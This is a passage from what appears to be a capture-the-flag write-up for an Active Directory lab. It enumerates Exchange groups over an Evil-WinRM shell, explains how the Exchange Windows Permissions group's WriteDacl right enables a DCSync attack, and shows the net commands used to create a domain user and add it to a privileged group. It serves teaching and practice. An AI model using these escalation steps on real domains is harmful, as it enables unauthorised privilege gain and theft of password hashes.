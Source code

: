 ```
Help Desk                                                                                                               
Records Management
Discovery Management                                        
Server Management                                           
Delegated Setup                                             
Hygiene Management                                          
Compliance Management                                       
Security Reader                                             
Security Administrator      
Exchange Servers                                            
Exchange Trusted Subsystem  
Managed Availability Servers
Exchange Windows Permissions
ExchangeLegacyInterop
$D31000-NSEL5BRJ63V7
Service Accounts
Privileged IT Accounts 
test                


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> get-domaingroup |select Samaccountname|findstr Exchange*
Exchange Servers
Exchange Trusted Subsystem
Exchange Windows Permissions
ExchangeLegacyInterop

```


Based on ADsecurity.org, https://adsecurity.org/?p=4119, the exchange windows permissions group's high privilege maybe common to many AD setups. 

	The main vulnerability here is that Exchange has high privileges in the Active Directory domain. The Exchange Windows Permissions group has WriteDacl access on the Domain object in Active Directory, which enables any member of this group to modify the domain privileges, among which is the privilege to perform DCSync operations. Users or computers with this privilege can perform synchronization operations that are normally used by Domain Controllers to replicate, which allows attackers to synchronize all the hashed passwords of users in the Active Directory.




## 2.6. DCsync attack Escalating Privilges with Exchange


Launched the DCsync attack according to the BloodHound. The details are in the below resources. 
https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/
https://infosecwriteups.com/htb-forest-write-up-fdd45e8e73bf

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user scriptkiddie scriptkiddie /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Trusted Subsystem" scriptkiddie /add /domain
The command completed successfully.
```
